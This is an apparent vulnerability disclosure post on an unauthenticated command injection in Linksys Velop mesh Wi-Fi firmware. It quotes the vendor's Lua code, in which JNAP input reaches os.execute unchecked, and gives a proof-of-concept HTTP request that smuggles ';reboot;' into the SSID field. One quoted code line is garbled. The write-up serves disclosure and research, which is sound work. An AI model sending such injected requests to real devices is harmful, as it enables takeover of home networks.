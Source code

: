 ```yaml
---
published: false
categories: [vulnerability,Linksys]
tags: [Linksys Velop Command Injection]
---
```


### Affected Software
The firmware version which I test is 1.1.2.185309
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
No CVE at the moment
There is a command injection vulnerability through JNAP action of http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure , the vulneraibility may lead to RCE without authentication
JNAP is a web services protocol for Cisco, similar as HNAP. 

There are many X-JNAP-Actions can be made through HTTP request. One of the action is http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure , for example, the http server can handle the following request without any authentication.
~~~http
POST /JNAP/ HTTP/1.1
    Host: 10.158.1.1
    Accept: application/json; charset=UTF-8
    Expires: Fri, 10 Oct 2015 14:19:41 GMT
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
    Cache-Control: no-cache
    Content-Type: application/json; charset=UTF-8
    Content-Length: 135
    User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
    Connection: close
    X-JNAP-Action: http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure
    
    {"configApSsid":"ssid","configApPassphrase":"wifipass","srpLogin":"user","srpPassword":"password"}
~~~

Through the action name, this request seems to be used to configure the smart wifi so it needn't any authentication.The first .lua file which processes this request is smartconnect_server.lua in /JNAP/modules/:
~~~lua
local function SmartConnectConfigure(ctx, input)
        local smc = require('smartconnect')
        local sc = ctx:sysctx()
        local error, output = smc.smartConnectConfigure(sc, input)
        return error or 'OK'
    end
~~~

Input parameters will be passed to smartConnectConfigure function in smartconnect.lua in /usr/local/lib/lua/5.1/, when we looked into this function and found there is no check of the input parameters:

~~~lua
function _M.smartConnectConfigure(sc, input)
        sc:writelock()
        local hdk = require('libhdklua')
        local smart_mode = sc:get_smartmode()
        if smart_mode == 2 then
            -- If a device is Master node.
            local error, output = bluetooth.btSmartConnectConfigure(input.configApSsid, input.configApPassphrase, input.srpLogin, input.srpPassword)
            if not error then
                return nil
            else
                return error
            end
        elseif smart_mode == 0 then
            -- If a device is Unconfigured.
            sc:set_smartconnect_configured_ssid(input.configApSsid);
            sc:set_smartconnect_configured_passphrase(input.configApPassphrase);
            sc:set_smartconnect_auth_login(input.srpLogin);
            sc:set_smartconnect_auth_pass(input.srpPassword);
            sc:set_smartmode(1)
            sc:set_bridge_mode_wo_reboot(1)
            sc:set_wifibridge_mode_wo_event(2)
            -- sc:setevent(_M.SMART_CONNECT_SETUP_STATUS, 'DONE')
            -- sc:setevent(_M.FORWARDING_RESTART, '')
            os.execute('smcdb_cli create')
            os.execute('smcdb_cli update -s '..input.configApSsid..' -p '..input.configApPassphrase..' -l '..input.srpLogin..' -a '..input.srpPassword)
            os.execute('sysevent set smart_connect::setup_status AUTH')
            os.execute('sysevent set forwarding-restart')
            return nil
        else
            return 'ErrorBTUnsupportedMode'
        end
    end
~~~

Then btSmartConnectConfigure will be called:

~~~lua
function _M.btSmartConnectConfigure(configap, configpass, srplogin, srppass)
        local opt = '-f '..'-A '..configap..'-P '..configpass..'-L '..srplogin..'-R '..srppass
        local error, output = _M.btRunCentralCommandSync(opt)
        if error then
            return '_ErrorUnexpected'
        end
        return nil, output
    end

    function _M.btRunCentralCommandSync(option)
        assert(option)
        local output = {}
        local table
        local jsonData
        local json = require('libhdkjsonlua')
        local file = io.(_M.RUN_CENTRAL_CMD_SYNC:format(option))
        if file then
            jsonData = file:read('*a')
            file:close()
            -- Parsing result
            table = json.parse(jsonData)
            if not table then
                platform.logMessage(platform.LOG_ERROR, ('Failed parsing JSON data\n'))
                return 'error_get_result_fail'
            end
            if table.result == 'error_bt' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'error_get_result_fail'
            end
            if table.result == 'error_jnap_req_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'error_get_result_fail'
            end
            if table.result == 'error_not_connected' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTNotConnected'
            end
            if table.result == 'error_conn_lost' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTConnectionLost'
            end
            if table.result == 'error_notify_timeout' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTPeripheralNotRespond'
            end
            if table.result == 'error_command_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTCommandFailed'
            end
            if table.result == 'error_notify_enable_fail'
                or table.result == 'error_gatt_read_fail'
                or table.result == 'error_gatt_write_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTCommunicationFailed'
            end
           output = table
        end
        return nil, output
    end
~~~

RUN_CENTRAL_CMD_SYNC is defined at the top of bluetooth.lua

    _M.RUN_CENTRAL_CMD_SYNC = '/usr/bin/btsetup_central %s'

So, there are four parameters passed to the function btSmartConnectConfigure: configApSsid,configApPassphrase,srpLogin and srpPassword. In the btRunCentralCommandSync function,  there is a call to /usr/bin/btsetup_central with the four parameters given. There is not any check of the four parameters and cause a command injection problem. Since this request will be processed without authentication, an attacker can get RCE with preauth.

#### PoC
The following PoC will cause a reboot of the node.
~~~http
    POST /JNAP/ HTTP/1.1
    Host: 10.158.1.1
    Accept: application/json; charset=UTF-8
    Expires: Fri, 10 Oct 2015 14:19:41 GMT
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
    Cache-Control: no-cache
    Content-Type: application/json; charset=UTF-8
    Content-Length: 135
    User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
    Connection: close
    X-JNAP-Action: http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure
    
    {"configApSsid":"testssid;reboot;","configApPassphrase":"testwifipass","srpLogin":"testlogin","srpPassword":"testpass"}
~~~

### Timeline

2018-03-04: Discovered
2019-02-05: Reported, but the vendor has fixed

